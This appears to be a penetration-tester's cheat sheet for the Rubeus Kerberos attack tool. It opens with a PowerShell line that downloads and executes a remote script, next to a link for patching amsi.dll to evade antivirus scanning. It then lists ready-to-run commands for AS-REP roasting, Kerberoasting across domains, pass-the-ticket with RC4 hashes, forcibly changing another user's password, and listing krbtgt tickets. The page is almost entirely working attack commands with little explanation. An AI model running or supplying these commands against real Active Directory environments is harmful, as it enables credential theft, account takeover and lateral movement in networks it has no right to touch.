 # References
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
⚠️ [Patch amsi.dll](/Tools/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## ASREPRoast with specified credentials
```powershell
Invoke-Rubeus 'asreproast /outfile:asreproast.<domain>.txt /format:hashcat /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Kerberoast
### Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat'
```

### Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

### Kerberoast from non-joined domain machine
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /creduser:<domain.local>\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

### List statistics about found Kerberoastable accounts without actually sending ticket requests
```powershell
Invoke-Rubeus 'kerberoast /stats /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Reqest and pass a TGT ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```

## Request a TGT ticket and create a network only session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain.local> /dc:<dc>.<domain.local> /ptt /nowrap /createnetonly:"C:\Windows\System32\cmd.exe" /show'
```

## Change password for another user using kerberos ticket
```powershell
Invoke-Rubeus 'asktgt /user:<user_can_change_passwords> /changepw /rc4:<hash> /domain:<domain> /outfile:<user_can_change_passwords>.ticket'
Invoke-Rubeus 'changepw /ticket:<user_can_change_passwords>.ticket /new:<new_password> /targetuser:<domain.local>\<user_to_change_password> /dc:<dc>.<domain>.local'
```

## List all tickets filter by service krbtgt
```powershell
Invoke-Rubeus 'triage /service:krbtgt'
```
